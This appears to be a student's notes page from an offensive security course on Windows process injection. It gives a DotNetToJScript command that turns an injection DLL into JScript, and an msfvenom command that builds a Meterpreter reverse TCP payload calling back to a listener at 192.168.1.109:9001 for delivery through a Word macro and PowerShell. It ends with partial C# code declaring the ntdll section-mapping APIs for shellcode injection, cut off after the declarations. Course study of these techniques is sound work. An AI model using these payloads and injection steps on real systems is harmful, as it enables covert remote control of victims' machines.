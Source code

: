 ### #2 
Modify the code of the ExampleAssembly project in DotNetToJscript to create a Jscript file that executes the shellcode inside explorer.exe. Instead of hardcoding the process ID, which cannot be known remotely, use the Process.GetProcessByName method to resolve it dynamically.
- convert to js
```powershell
 .\DotNetToJScript.exe C:\users\dooley\source\repos\InjectToJscript\InjectToJscript\bin\x64\Release\InjectToJscript.dll --lang=jscript --ver=v4 -o injecttojs.js -c InjectToJscript.Class1
```

### \#3

- Port the code from C# to PowerShell to allow process injection and shellcode execution from a Word macro through PowerShell. Remember that PowerShell is started as 32-bit, so instead of injecting into explorer.exe, start a 32-bit process such as Notepad and inject into that instead.
- create revshell payload in powershell format
```bash
 ❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.109 LPORT=9001 EXITFUNC=thread -f ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 375 bytes
Final size of ps1 file: 1830 bytes
```
- injection named injection2.ps1

### TODO:
#### Extra Mile

Process injection with _VirtualAllocEx_, _WriteProcessMemory_, and _CreateRemoteThread_ is considered a standard technique, but there are a few others to consider.

The low-level native APIs _NtCreateSection_, _NtMapViewOfSection_, _NtUnMapViewOfSection_, and _NtClose_ in ntdll.dll can be used as alternatives to _VirtualAllocEx_ and _WriteProcessMemory_.

Create C# code that performs process injection using the four new APIs instead of _VirtualAllocEx_ and _WriteProcessMemory_. Convert the code to Jscript with DotNetToJscript. Note that _CreateRemoteThread_ must still be used to execute the shellcode.

Not my code:
```csharp
using System;
using System.Diagnostics;
using System.Linq;
using System.Runtime.InteropServices;



public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);


    [DllImport("ntdll.dll", SetLastError = true, ExactSpelling = true)]
    static extern UInt32 NtCreateSection(ref IntPtr SectionHandle, UInt32 DesiredAccess, IntPtr ObjectAttributes, ref UInt32 MaximumSize, UInt32 SectionPageProtection, UInt32 AllocationAttributes, IntPtr FileHandle);

    [DllImport("ntdll.dll", SetLastError = true)]
    static extern uint NtMapViewOfSection(IntPtr SectionHandle, IntPtr ProcessHandle, ref IntPtr BaseAddress, UIntPtr ZeroBits, UIntPtr CommitSize, out ulong SectionOffset, out uint ViewSize, uint InheritDisposition, uint AllocationType, uint Win32Protect);

```